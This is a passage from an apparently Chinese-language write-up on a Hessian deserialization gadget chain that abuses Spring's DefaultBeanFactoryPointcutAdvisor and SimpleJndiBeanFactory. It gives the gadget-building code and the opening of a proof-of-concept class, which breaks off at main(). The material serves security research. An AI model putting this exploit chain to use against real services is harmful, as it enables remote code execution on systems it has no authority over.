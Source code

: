 ```java
public static Object makeBeanFactoryTriggerBFPA ( UtilFactory uf, String name, BeanFactory bf ) throws Exception {
    DefaultBeanFactoryPointcutAdvisor pcadv = new DefaultBeanFactoryPointcutAdvisor();
    pcadv.setBeanFactory(bf);
    pcadv.setAdviceBeanName(name);
    return uf.makeEqualsTrigger(pcadv, new DefaultBeanFactoryPointcutAdvisor());
}
```

 - 跟进`UtilFactory#makeEqualsTrigger`方法, 接着调用`JDKUtil#makeMap`, 然后又是和`RomeGadget`一样的处理过程了.

```java
default Object makeEqualsTrigger ( Object tgt, Object sameHash ) throws Exception {
    return JDKUtil.makeMap(tgt, sameHash);
}
```

### POC
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.*;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/11 11:34 下午
 */
public class SpringAbstractBeanFactoryPointcutAdvisorGadget {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
```